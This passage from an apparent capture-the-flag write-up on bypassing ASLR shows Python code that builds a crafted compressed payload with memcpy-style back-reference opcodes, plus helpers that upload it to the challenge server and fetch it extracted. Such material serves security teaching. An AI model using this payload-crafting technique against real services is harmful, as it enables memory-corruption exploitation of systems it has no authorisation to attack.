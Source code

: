 ```
        self.content += p64(off)
        self.cur += 9
        self.out += off & M64

    def memcpy(self, off, count):
        # memcpy(out, out-off, count);
        self.content += b'\x03'
        self.content += p64(off)
        self.content += p64(count)
        self.cur += 17
        self.out += count & M64

```

Before diving into the exploitation phase, It is always good to build something that let you easily interact with the binary, to avoid wasting time.

```
import requests

def uploadFile(blob: bytes, fileid: int):
    assert (fileid < (1<<31) - 1)

    multipart_form_data = {
        'file': (f'payload_{fileid}', blob),
    }

    res = requests.post(
        f"http://{SERVER_IP}:{SERVER_PORT}/upload/{fileid}",
        files=multipart_form_data
    )

    return res

def getFile(fileid: int, extract="true"):
    res = requests.get(f"http://{SERVER_IP}:{SERVER_PORT}/files/{fileid}?extract={extract}")
    return res

```

### [](#inspect-the-memory-mappings-of-the-challenge)Inspect the memory mappings of the challenge

That was very important to me when trying to solve the challenge, I starred at the memory mappings for a lot of time.

To do this, you can spawn a local instance of the challenge and read the process maps after doing some operations.

[![](https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64/raw/main/images/read-proc-mappings.png)](https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64/blob/main/images/read-proc-mappings.png)  

